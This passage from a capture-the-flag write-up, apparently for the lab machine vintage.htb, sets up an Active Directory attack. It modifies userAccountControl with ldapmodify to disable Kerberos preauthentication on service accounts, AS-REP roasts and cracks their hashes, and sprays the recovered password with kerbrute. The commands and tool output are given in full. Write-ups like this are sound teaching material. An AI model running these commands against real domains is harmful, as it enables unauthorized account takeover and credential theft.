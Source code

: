 For using `ldapmodify` to edit the `userAccountControl` attribute, you need to grab the current `userAccountControl` value of enabled user then add it with `4194304` according to [Microsoft Docs](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties) for `DONT_REQ_PREAUTH`.
You can use the following command to get the `userAccountControl` value.

```bash
ldapsearch -H ldap://dc01.vintage.htb/ -Y GSSAPI -b "DC=vintage,DC=htb" "(sAMAccountName=svc_ark)" userAccountControl
```

The value of `userAccountControl` should be `66048` for `svc_ark` user, so we need to replace it with `66048 + 4194304` which is `4260352`. Then, you need to prepare a ldif file to modify the `userAccountControl` attribute.
I use the following ldif file to modify the `userAccountControl` attribute of `svc_ark`, `svc_ldap`, and `svc_sql` users.

```bash
dn: CN=svc_ark,OU=Pre-Migration,DC=vintage,DC=htb
changetype: modify
replace: userAccountControl
userAccountControl: 4260352

dn: CN=svc_ldap,OU=Pre-Migration,DC=vintage,DC=htb
changetype: modify
replace: userAccountControl
userAccountControl: 4260352

dn: CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
changetype: modify
replace: userAccountControl
userAccountControl: 4260352
```

Then, you can use `ldapmodify` to modify the `userAccountControl` attribute.

```bash
ldapmodify -H ldap://dc01.vintage.htb/ -Y GSSAPI -f enable_plus_dont_req_preauth.ldif
```

After that, you can ASREProast them and crack their hashes.

```bash
GetNPUsers.py vintage.htb/gmsa01\$ -k -no-pass -dc-host dc01.vintage.htb -request -format hashcat -outputfile asrep_hash.txt
hashcat asrep_hash.txt <path_to_rockyou.txt>
```

If no one has changed the passwords for `svc_ark` or `svc_ldap`, you should only be able to crack the hash for `svc_sql`.
With the password cracked, we could spary this password with the users list we got earlier.

```bash
❯ kerbrute passwordspray -d vintage.htb --dc dc01.vintage.htb users.txt '<svc_sql_password>'

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 02/17/25 - Ronnie Flathers @ropnop

2025/02/17 23:11:12 >  Using KDC(s):
2025/02/17 23:11:12 >   dc01.vintage.htb:88

2025/02/17 23:11:13 >  [+] VALID LOGIN:  svc_sql@vintage.htb:<svc_sql_password>
2025/02/17 23:11:13 >  [+] VALID LOGIN:  C.Neri@vintage.htb:<svc_sql_password>
2025/02/17 23:11:13 >  Done! Tested 14 logins (2 successes) in 0.426 seconds
```
